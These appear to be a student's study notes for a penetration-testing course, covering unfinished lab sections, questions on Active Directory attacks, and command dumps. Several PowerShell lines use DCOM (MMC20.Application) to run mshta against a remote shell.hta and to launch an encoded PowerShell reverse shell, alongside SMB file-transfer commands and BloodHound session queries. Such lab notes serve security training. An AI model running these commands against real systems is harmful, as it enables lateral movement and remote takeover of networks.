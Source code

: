 # Incomplete Sections

| Chapter                | Section | Lab Exercise |
| ---------------------- | ------- | ------------ |
| SQL Injection          | 10.3.2  | 4, 6, 7      |
| Client Side Attacks    | 11.2.3  | 2            |
| Client Side Attacks    | 11.3.1  | 1, 3         |
| AD Enumeration         | 21.4.2  | Capstone     |
| Attacking AD Auth      | 22.2.4  | 1            |
| Lateral Movement in AD | 23.1.1  | 2            |
| Lateral Movement in AD | 23.1.2  | 2            |
| Lateral Movement in AD | 23.1.3  |              |

---

# Queries
1. **Section - 21.3.3** - How are SPNs useful while attacking?
2. Not able to run CrackMapExec due to lack of a VENV in python.
3. If i’m logged in as dave. Then if I find that stephanie also has a session on the same machine, what does that mean? What can i do? This can be done with `.\PSLoggedon.exe //files04` command.

```PowerShell
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.XXX.72"))
$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c mshta.exe http://192.168.XXX.XXX/shell.hta","7")
```

```PowerShell
LINE1 $dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.XXX.72"))
LINE2 $dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c mshta.exe http://192.168.119.147/shell.hta","7")

LINE1 $dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.XXX.73")) LINE2 $dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5A....","7")
```


[Ligolo-Ng - References](https://discord.com/channels/780824470113615893/1087927333731713094/1194045054671659018)
[CME Help](https://medium.com/r3d-buck3t/crackmapexec-in-action-enumerating-windows-networks-part-2-c61dfb7cd88e)

```text
net use \\computername\sharename
net view \\computername\sharename
dir \\computername\sharename
copy \\computername\sharename\file.txt file.txt
type \\computername\sharename\file.txt 
```

4. If we get a reverse shell, and it is running WSL, it would seem that we have ented a Linux System, however, in reality it would be a Windows System. Do commands like `uname -all` or `whoami` give you better clarification on wether or not it is a Winows System in reality?

---

# Command Dump Windows

```bash
impacket-smbserver share_name ./path/to/share -smb2support -user 'usr' -password 'pswd'
net use m: \\$KALI_IP\share_name # m: is just a random drive letter.
```

# Bloodhound Custom Queries
1. Get a list of all computers on the domain > `MATCH (m:Computer) RETURN m`
2. Get all users in the domain > `MATCH (m:User) RETURN m34`
3. Get all active sessions > `MATCH p = (c:Computer)-[:HasSession]->(m:User) RETURN p`

